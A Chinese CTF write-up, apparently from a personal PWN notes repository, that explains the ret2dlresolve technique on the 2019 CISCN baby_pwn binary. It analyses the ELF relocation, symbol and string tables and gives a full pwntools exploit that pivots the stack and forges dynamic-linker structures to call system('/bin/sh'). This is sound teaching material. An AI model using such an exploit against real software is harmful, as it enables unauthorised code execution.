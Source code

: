 # dl_runtime_resolve实例分析
## IDA静态分析

这里用2019信安国赛的baby_pwn来做演示(就是因为这个做不出来去做了好多功课)，实例程序test在文件夹下，hack.py是实现本地攻击的脚本  

首先使用checksec查看文件保护状态，由于是partial relo所以并没机会改写动态段的字符串表地址。所以我们直接伪造所有所需要的参数结构。

ida动态段信息如下  

---

![1.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/1.png)

---  

d_tag字段值为DT_JMPREL,DT_SYMTAB,DT_STRTAB,分别保存了重定位表，字符串表，符号表

重定位表信息如下  

---

![2.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/2.png)

---

比如read函数的重定位条目r_offset字段保存read got表中的位置，r_info保存了符号表索引，低8位保存了符号绑定信息  

更据符号表索引追踪符号表信息如下  

---  

![3.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/3.png)  

---    

第一个字段是st_name表示字符串在字符串表中偏移，其他字段的值我们伪造时仿造其他常规函数即可，他们详细信息定义在elf头文件中。

字符串表如下。

---  

![4.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/4.png)  

---  

## 伪造参数  

---  

![5.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/5.png)  

---  

程序漏洞点很容易定位，就在vuln函数中有一处栈溢出，但是只有一个read函数可以调用，没有机会泄漏libc，所以就直接考虑ret2dlruntime  

```  

from pwn import *

elf = ELF('test')

strTab = 0x804827c
symTab = 0x80481dc
relTab = 0x804833c

plt0At = 0x8048380
bssAt =  0x804a040
baseAt = bssAt + 0x500  

#这些是程序中的小gadget(可利用的小片段)用来处理栈迁移
pppRet = 0x80485d9
popEbpRet = 0x80485db  
leaveRet = 0x804854a 

readPlt = elf.plt['read']
readGot = elf.got['read']

#缓冲区填充
nop = cyclic(0x28)

rop1 = nop
rop1 += cyclic(0x4)
rop1 += p32(readPlt)
#上面用来覆盖返回地址为read函数，向可控制的bss段写入rop
#pppret作为返回地址，用来处理掉三个传递给read的函数
rop1 += p32(pppRet)
rop1 += p32(0)
rop1 += p32(baseAt-4)
rop1 += p32(0x100)
rop1 += p32(popEbpRet)
#迁移栈去ret plt0 我们在baseat处填入plt0的地址用于ret返回执行动态链接器
rop1 += p32(baseAt-4)
rop1 += p32(leaveRet)

#这是传递给dl_fixup函数的重定位条目偏移，几个4字节大小是用来计算伪造的重定位条目的地址
#这些4字节用于填充一些会用到的参数
relloc_offset = baseAt + 4 + 4 + 4 + 4 + 4 - relTab

#计算符号条目地址
symAt = relTab + relloc_offset + 0x8
#结构体要在内存中对齐
align = 0x10 - ((symAt-symTab)&0xf)
#计算出实际地址
symAt = symAt + align
#计算出表项索引
r_sym = (symAt - symTab)/0x10
r_info = (r_sym << 8) + 0x7
#伪造重定位条目
fakeRel = p32(readGot) + p32(r_info)

strAt = symAt + 0x10
st_name = strAt - strTab
#伪造符号表条目
fakeSym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

argStr = '/bin/sh\0'
funcStr = 'system\0'

argAt = strAt + len(funcStr)
#完成第二段rop的构造
rop2 = p32(baseAt-4)
rop2 += p32(plt0At)
rop2 += p32(relloc_offset)
rop2 += p32(readPlt)
rop2 += p32(argAt)
rop2 += cyclic(0x4)
rop2 += fakeRel
rop2 += '\0'*align
rop2 += fakeSym
rop2 += funcStr
rop2 += argStr  

r = process('./test')
r.send(rop1)
r.send(rop2)
r.interactive()

```  

## 测试  

---  

![6.png](https://github.com/S0DUKU/PWNnote/blob/master/ROP/ret2dlruntime/images/6.png)  

---  

但是有点奇怪，有的时候脚本不成功，但是修改elf名，并且在代码中做修改就可以使用了，暂时无法理解。。。
希望有哪位师傅能解答下 ，比如截图时我就把test改名为pwn了....






